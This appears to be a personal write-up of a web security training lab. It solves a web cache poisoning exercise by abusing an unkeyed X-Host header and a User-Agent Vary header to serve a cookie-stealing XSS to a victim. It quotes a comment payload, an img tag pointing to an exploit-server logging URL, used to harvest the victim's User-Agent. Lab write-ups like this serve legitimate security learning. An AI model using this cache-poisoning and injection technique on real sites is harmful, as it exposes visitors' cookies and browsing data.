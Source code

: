 *This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.*

Checked a blog post and saw the request in *Proxy:*
![Screenshot 2024-06-04 at 5.11.10 PM](images/Screenshot%202024-06-04%20at%205.11.10%20PM.png)
Same as the previous labs, it loads the `tracking.js` file from the given URL. 
Let's look for unkeyed inputs that we can potentially use to deliver the XSS via web cache poisoning. 
I found the following when using *Param Miner*:
![Screenshot 2024-06-04 at 5.16.37 PM](images/Screenshot%202024-06-04%20at%205.16.37%20PM.png)
![Screenshot 2024-06-04 at 5.17.06 PM](images/Screenshot%202024-06-04%20at%205.17.06%20PM.png)
The `X-Host` header is similiar to the `X-Forwarded-Host` header.
We can potentially modify the `X-Host` header to deliver our attack. 
I modified my exploit to the following:
![Screenshot 2024-06-04 at 5.12.47 PM](images/Screenshot%202024-06-04%20at%205.12.47%20PM.png)
From the initial request, it shows that under the `Vary` header, `User-Agent` is required. We need to find out the `User-Agent` of our victim.
This can be done by posting a comment that will redirect the victim to our exploit server with the following payload:
`<img src="https://exploit-0a04001d03be1465828d142d01b7000a.exploit-server.net/log"` (important to add the subdirectory)
This gives us the following `User-Agent` of the victim:
![Screenshot 2024-06-04 at 5.27.19 PM](images/Screenshot%202024-06-04%20at%205.27.19%20PM.png)
Pasted the above user-agent as a header to my modified request in the *Repeater*, adding in the `X-Host` header as well:
![Screenshot 2024-06-04 at 5.56.21 PM](images/Screenshot%202024-06-04%20at%205.56.21%20PM.png)
